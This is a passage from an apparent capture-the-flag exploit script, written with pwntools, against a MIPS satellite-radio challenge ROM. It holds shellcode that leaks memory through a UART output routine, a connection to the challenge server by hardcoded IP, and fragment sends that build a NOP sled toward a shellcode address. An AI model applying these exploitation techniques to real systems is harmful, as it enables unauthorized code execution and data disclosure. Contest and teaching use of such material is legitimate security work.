 ```python
lui $a1, 0xa200
add $a1, $a1, 0x8000

/* add current offset */
add $a1, $a1, $s0
add $s0, $s0, 1

/* load uart io into a0 */
lui $a0, 0xa00f
add $a0, $a0, 0xecfc

/* load buffer len into a2 */
add $a2, $zero, 1

/* load output function address into a3 */
lui $a3, 0xbfc0
add $a3, $a3, 0x8cbc

/* set up the loop */
lui $ra, 0xa00f
add $ra, $ra, 0xea80

/* branch into output function */
jr $a3
nop
''')

ticket='your_ticket'

if __name__ == '__main__':
    if "remote" in sys.argv:
        #io = remote('launchlink.satellitesabove.me', 5065)
        io = remote('52.14.23.173', 5065)
        io.recv()
        io.sendline(ticket)
    else:
        io = process(["./vmips",
                     "-o", "memsize=2097152",
                     #"-o", "haltdumpcpu",
                     #"-o", "memdump",
                     #"-o", "nohaltbreak",
                     #"-o", "instdump",
                     "challenge.rom"],
                     #stdout=open('vmips_output.txt', 'wb')
                    )
        io.recv()
        sleep(0.3)

    mac = Mac(io)
    rll = Rll(mac)

    mac.set_pdu_size(0xc0)
    print(f'[*] Set pdu size to 0xc0.')

    rll.enable_encryption()
    mac.recv(0x60)
    print(f'[*] Enabled encryption.')

    for i in range(0, 4):
        rll.send_fragment(b'\x00'*rll.fragment_size, fragment_no=i)
    print(f'[*] Sent fragments [0-3] (nop sled)')

    shellcode_addr = 0xa00fea7c
```